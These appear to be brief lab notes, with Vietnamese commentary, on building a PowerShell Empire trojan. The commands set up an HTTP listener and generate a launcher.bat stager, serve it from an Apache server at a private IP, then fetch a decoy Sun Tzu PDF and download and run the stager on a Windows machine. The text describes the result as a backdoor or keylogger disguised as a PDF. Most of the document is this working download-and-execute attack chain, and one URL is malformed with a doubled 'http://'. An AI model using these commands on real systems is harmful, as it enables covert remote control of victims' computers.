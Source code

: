 powershell-empire server 
powershell-empire client

uselistener http
set Host 192.168.202.159
set Port 8080
execute

usestager windows/launcher_bat
set Listener http

execute

sudo service apache2 start
sudo service apache2 status
sudo mv /var/lib/powershell-empire/empire/client/generated-stagers/launcher.bat /var/www/html/launcher.bat

192.168.202.159/launcher.bat

cd %TEMP%
Powershell -Command "Invoke-WebRequest 'https://dotchuoinon.files.wordpress.com/2012/07/ton-tu-binh-phap.pdf' -OutFile Tontu.pdf"
Tontu.pdf
Powershell -Command "Invoke-WebRequest 'http://http://192.168.202.159/launcher.bat' -OutFile Sun_Zu.bat"
Sun_Zu.bat

Kịch bản 1 tạo 1 trojan sử dụng Powershell
Trojan là một tập tin có giao diện trông giống như một tệp hình ảnh hoặc pdf bình thường
nhưng khi được thực thi, nó sẽ chạy các mã độc ở chế độ nền như 1 backdoor hoặc 1 keylogger

Về cơ bản, đây là một lệnh tải xuống và tiếp theo đó là lệnh tự động chạy file

